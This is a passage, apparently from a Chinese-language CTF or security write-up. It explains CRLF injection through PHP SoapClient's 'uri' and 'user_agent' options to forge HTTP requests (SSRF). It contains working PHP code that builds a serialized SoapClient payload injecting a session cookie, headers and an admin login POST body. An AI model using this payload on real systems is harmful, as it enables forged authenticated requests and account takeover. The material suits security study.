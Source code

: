 **uri**

```php
$location = "http://127.0.0.1:9999/2.php?action=login";
$uri = "http://127.0.0.1/\r\ntest:test";
$event = new SoapClient(null,array('user_agent'=>"test",'location'=>$location,'uri'=>$uri));
$event->getcountry();

/*
  收到的请求：
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/
test:test#getcountry"
Content-Length: 398

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1/
test:test" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
*/
```

因为请求体一定在可注入点的后面，所以我们不需要担心。无论CRLF的注入点在哪，我们都可以轻松的利用CRLF向下覆盖，重写请求体。

这里的关键是在请求头，因为在HTTP协议中，当请求头中有相同的键值的时候，是一第个为准的。

比如这样的一个请求：

```
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/
Content-Type: application/x-www-form-urlencode
Content-Length: 398
```

服务器解析时识别的`Content-Type`为`text/xml; charset=utf-8`,但是我们想post表单，要要求它为`application/x-www-form-urlencode`

所以注意看两个请求的注入点位置，显然`uri`的CRLF注入点在`Content-Type`的后面，没把法修改`Content-Type`,利用起来有点难度，所以先讲 `user_agent`这个注入点。

#### 利用user_agent这个CRLF注入点

下面是利用代码,生成注入数据：

```php
$location = "http://127.0.0.1/index.php?action=login";
$uri = "http://127.0.0.1/";
$event = new SoapClient(null,array('user_agent'=>"test\r\nCookie: PHPSESSID=08jl0ttu86a5jgda8cnhjtvq32\r\nContent-Type: application/
x-www-form-urlencoded\r\nContent-Length: 45\r\n\r\nusername=admin&password=nu1ladmin&code=470837\r\n\r\n\r\n",'location'=>$location,
'uri'=>$uri));
$c = (serialize($event));
var_dump(urlencode($c));
```
